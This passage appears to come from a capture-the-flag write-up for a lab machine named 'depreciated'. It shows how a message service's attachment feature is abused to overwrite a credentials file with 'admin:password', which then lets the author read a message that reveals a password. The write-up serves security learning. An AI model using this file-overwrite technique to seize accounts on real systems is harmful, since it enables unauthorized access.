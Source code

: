 It seems that `code.txt` is read and this is the username and password checked, and within the `terminal` function, there's also a check for whether the username is called `admin`. Lastly, the username and password are stored within `/opt/depreciated/code.txt`.

The `create_message` function gives us an arbitrary write using the attachment function. We can overwrite the original `code.txt` with a new one as the `admin` user:

```bash
echo 'admin:password' > /tmp/code.txt

## on port 5132
$ create
for: admin
Description: lol
File: /tmp/code.txt

peter@depreciated:/opt/depreciated$ cat code.txt 
admin:password
```

This would allow us to read message 0:

{% code overflow="wrap" %}
```
$ read 0
Message No: #0

Hey, Seriously this is getting out of hand. Your new password is 9>XsS+&=Zn#AS9-@ Please don't forget your password this time. And make sure to change this once you are in.

Attachment: none
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>
